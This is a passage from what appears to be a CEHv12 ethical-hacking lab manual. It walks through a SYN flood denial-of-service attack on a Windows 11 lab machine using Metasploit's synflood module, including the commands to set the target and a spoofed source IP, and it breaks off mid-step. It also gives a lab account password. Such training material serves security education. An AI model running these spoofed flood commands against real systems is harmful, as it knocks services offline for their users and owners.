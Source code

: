 ```
Note: -p : specifies the port to be scanned.
```
9. The result appears, displaying the port status as open, as shown in the screenshot.

### 


10. Now, we will perform SYN flooding on the target machine ( **Windows 11** ) using port 21.
11. In this task, we will use an auxiliary module of Metasploit called **synflood** to perform a DoS attack on the target machine.
12. Type **msfconsole** from a command-line terminal and press **Enter** to launch msfconsole.

### 


13. In the **msf** command line, type **use auxiliary/dos/tcp/synflood** and press **Enter** to launch a SYN flood module.
14. Now, determine which module options need to be configured to begin the DoS attack.

### 


15. Type **show options** and press **Enter**. This displays all the options associated with the auxiliary module.
16. Here, we will perform SYN flooding on port **21** of the **Windows 11** machine by spoofing the IP address of the **Parrot Security**
    machine with that of the **Windows Server 2019 (10.10.1.19)** machine.
17. Issue the following commands:

```
set RHOST (Target IP Address) (here, 10.10.1.11 )
set RPORT 21
set SHOST (Spoofable IP Address) (here, 10.10.1.19 )
Note:By setting the SHOST option to the IP address of the Windows Server 2019 machine, you are spoofing the IP address of the
Parrot Security machine with that of Windows Server 2019.
```
### 


18. Once the auxiliary module is configured with the required options, start the DoS attack on the **Windows 11** machine.
19. To do so, type **exploit** and press **Enter**. This begins SYN flooding the **Windows 11** machine.

### 


20. To confirm, click **CEHv12 Windows 11** to switch to the **Windows 11** machine and click **Ctrl+Alt+Del**. By default, **Admin** user profile
    is selected, type **Pa$$w0rd** in the Password field and press **Enter** to login.

```
Note: If Welcome to Windows wizard appears, click Continue and in Sign in with Microsoft wizard, click Cancel.
```
```
Note: Networks screen appears, click Yes to allow your PC to be discoverable by other PCs and devices on the network.
```
21. Click **Search** icon ( ) on the **Desktop**. Type **wireshark** in the search field, the **Wireshark** appears in the results, click **Open** to
